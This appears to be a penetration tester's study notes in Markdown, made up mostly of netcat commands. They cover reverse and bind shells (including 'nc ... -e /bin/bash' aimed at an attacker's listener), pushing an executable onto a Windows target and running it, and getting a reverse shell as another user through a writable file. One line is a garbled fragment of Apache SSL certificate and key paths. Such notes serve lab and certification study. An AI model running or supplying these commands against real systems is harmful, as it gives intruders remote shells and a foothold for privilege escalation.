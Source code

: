 # Reverse shell
Connection from the target to the attacker
//opening port with netcat on my system
nc -nvlp 4444
//or -n skip dns name resolution & verbose
nc -n -v 10.11.0.22 110

//establishing connection on the victims system
nc 192.168.0.6 4444 -e /bin/bash

//just to open connection, and chat
nc -nv 10.11.0.22 4444


# Bind shell
Connection from the attacker to the target  
//opening port with netcat on the target 
nc -nvlp 4444

//establishing connection on my pc
nc 192.168.0.6 4444 -e /bin/bash

# Buffer overflow
Local bo is not intereseting check for remote bo

# transfer files to windows
//on target system and redirect any file to incoming.exe
nc -nlvp 4444 > incoming.exe

//locate file
locate wget.exe

// transfer file => we need to wait for file being uploaded
nc -nv 10.11.0.22 4444 < /user/share/.../wget.exe

//on target but first abort nc
incoming.exe -v


/etc/apache2/ssl/apache.crtSSLCertificateKeyFile /etc/apache2/ssl/apache.key

# reverse shell in programming languages
* example: you have access to user "kid" and on the users "yolo" home directory there is a writebale file
* You can add a script there with echo "the script" >> nameoffile to overwrite this file. The script points to your kali ip.
* set up a listener in kali
* Once the file got executed you will have reverse shell to "yolo"
Reverse shells: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
